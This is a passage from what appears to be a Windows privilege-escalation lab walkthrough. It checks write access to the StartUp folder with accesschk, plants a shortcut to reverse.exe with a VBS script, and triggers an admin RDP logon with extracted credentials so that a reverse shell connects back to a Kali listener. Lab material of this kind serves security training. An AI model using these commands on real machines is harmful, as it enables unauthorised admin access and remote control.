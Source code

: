 Using accesschk.exe, note that the BUILTIN\Users group can write files to the StartUp directory:

C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

Using cscript, run the C:\PrivEsc\CreateShortcut.vbs script which should create a new shortcut to your reverse.exe executable in the StartUp directory:

cscript C:\PrivEsc\CreateShortcut.vbs

Start a listener on Kali, and then simulate an admin logon using RDP and the credentials you previously extracted:

rdesktop -u admin MACHINE_IP

A shell running as admin should connect back to your listener.
